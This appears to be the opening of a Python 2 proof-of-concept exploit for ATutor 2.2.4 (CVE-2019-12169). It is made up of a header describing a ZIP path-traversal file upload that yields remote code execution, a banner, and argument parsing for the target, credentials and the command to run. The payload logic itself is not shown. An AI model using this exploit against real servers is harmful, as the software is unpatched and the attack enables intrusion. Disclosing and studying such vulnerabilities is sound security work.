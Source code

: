     # Author Site: http://incidentsecurity.com/atutor-2-2-4-language_import-arbitrary-file-upload-rce/
    #            : https://github.com/fuzzlove
    #
    # Description: ATutor 2.2.4 allows Arbitrary File Upload and Directory Traversal
    # resulting in remote code execution via a ".." pathname in a ZIP archive to the mods/_core/languages/language_import.php (aka Import New Language) or mods/_standard/patcher/index_admin.php (aka Patcher) component.
    #
    # Greetz: wetw0rk, offsec ^^
    #
    # Notes: This application is no longer being maintained so there is no fix for this issue.

    import sys, hashlib, requests
    import urllib
    requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
    import time


    print "+-------------------------------------------------------------+"
    print
    print "- ATutor 2.2.4 Arbitrary File Upload / RCE [CVE-2019-12169]"
    print
    print "-          Discovery / PoC by liquidsky (JMcPeters) ^^"
    print
    print "+-------------------------------------------------------------+"

    try:
    #settings
        target   = sys.argv[1]
        username = sys.argv[2]
        password = sys.argv[3]
        commands = sys.argv[4]

    except IndexError:

            print
        print "- usage: %s <target> <username> <password> <command>" % sys.argv[0]
        print "- Example: %s incidentsecurity.com admin mypassword 'whoami'" % sys.argv[0]
            print
        sys.exit()
